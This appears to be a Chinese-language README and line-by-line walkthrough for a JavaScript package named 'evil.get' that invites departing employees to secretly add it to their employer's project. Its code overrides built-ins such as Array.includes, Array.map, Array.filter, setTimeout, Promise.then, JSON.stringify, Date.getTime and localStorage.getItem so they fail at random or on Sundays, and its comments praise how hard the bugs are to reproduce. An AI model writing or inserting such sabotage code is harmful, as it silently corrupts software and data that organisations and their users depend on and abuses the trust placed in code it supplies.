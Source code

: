 # evil.get
什么？黑心996公司要让你提桶跑路了？

想在离开前给你们的项目留点小*礼物*？

偷偷地把本项目引入你们的项目吧，你们的项目会有但不仅限于如下的神奇效果：

* 当数组长度可以被7整除时，`Array.includes` 永远返回false。
* 当周日时，`Array.map` 方法的结果总是会丢失最后一个元素。
* `Array.filter` 的结果有2%的概率丢失最后一个元素。
* `setTimeout` 总是会比预期时间慢1秒才触发。
* `Promise.then` 在周日时有10%不会注册。
* `JSON.stringify` 会把`I`(大写字母I)变成`l`(小写字母L)。
* `Date.getTime()` 的结果总是会慢一个小时。
* `localStorage.getItem` 有5%几率返回空字符串。  
我们开始解读(
```
const _includes = Array.prototype.includes;
Array.prototype.includes = function (...args) {
  if (this.length % 7 !== 0) {
    return _includes.call(this, ...args);
  } else {
    return false;
  }
};
```
通过这个 我们判断数组长度可整除7时 则返回false  
保存引用给_includes。重写includes方法时 看心情(shide)引入/不引入  
(_includes事闭包 开发者想引用事不行的)    
好的 我们看向map  
```
const _map = Array.prototype.map;
Array.prototype.map = function (...args) {
  result = _map.call(this, ...args);
  if (new Date().getDay() === 0) {
    result.length = Math.max(result.length - 1, 0);
  }
  return result;
}
```
map的作用就是周日丢失最后的元素  
利用new Date().getDay() === 0判断 然后看值 真则丢失()    
来到filter
```
const _filter = Array.prototype.filter;
Array.prototype.filter = function (...args) {
  result = _filter.call(this, ...args);
  if (Math.random() < 0.02) {
    result.length = Math.max(result.length - 1, 0);
  }
  return result;
}
```
与第一个的includes原理一样()  
setTimeout 惹触发用的
晚一秒
```
const _timeout = global.setTimeout;
global.setTimeout = function (handler, timeout, ...args) {
  return _timeout.call(global, handler, +timeout + 1000, ...args);
}
```
Promise.then  
周日~~~  
```
const _then = Promise.prototype.then;
Promise.prototype.then = function (...args) {
  if (new Date().getDay() === 0 && Math.random() < 0.1) {
    return;
  } else {
    _then.call(this, ...args);
  }
}
```
可以防止Dev们复现(shide)  
JSON.stringify
很简单 替换 主要用于变量寄中寄  
```
const _stringify = JSON.stringify;
JSON.stringify = function (...args) {
  return _stringify(...args).replace(/I/g, 'l');
}
```
Date.getTime让时间慢一小时  
```
const _getTime = Date.prototype.getTime;
Date.prototype.getTime = function (...args) {
  let result = _getTime.call(this);
  result -= 3600 * 1000;
  return result;
}
```
localStorage.getItem-事空字符！  
```
const _getItem = global.localStorage.getItem;
global.localStorage.getItem = function (...args) {
  let result = _getItem.call(global.localStorage, ...args);
  if (Math.random() < 0.05) {
    result = '';
  }
  return result;
}
```
